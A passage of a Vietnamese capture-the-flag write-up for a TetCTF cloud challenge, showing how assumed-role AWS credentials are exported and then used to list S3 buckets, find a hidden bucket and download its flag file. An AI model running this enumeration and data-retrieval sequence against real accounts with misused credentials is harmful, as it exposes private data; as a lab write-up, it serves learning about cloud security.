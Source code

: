 Và lại lưu credentials:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Lúc này, ta đã có Role CTF_ROLE, nếu chưa chắc chắn, có thể kiểm tra bằng `aws sts get-caller-identity`, nếu thấy CTF_ROLE thì đã thành công.

Tiến hành list các bucket:

```console
$ aws s3api list-buckets --query "Buckets[].Name"
[
    "secret-tetctf",
    "tet-ctf-secret"
]
```

Vậy là ta thấy thêm một bucket nữa tên là `tet-ctf-secret`, kiểm tra xem trên đó có gì:

```console
$ aws s3 ls s3://tet-ctf-secret
2021-12-29 22:18:42         29 flag
```

Có file flag, thử lấy nó về và đọc:

```console
$ aws s3 cp s3://tet-ctf-secret/flag flag
download: s3://tet-ctf-secret/flag to ./flag 

$ cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```

Done, flag: `TetCTF{AssumE_R0le-iS-A-MuSt}`

> Cảm ơn anh Chi Tran, đồng thời là người ra đề của chall này, đã cho em mượn IAM User và chỉ dẫn em trong quá trình giải, cũng như là học thêm kiến thức mới!
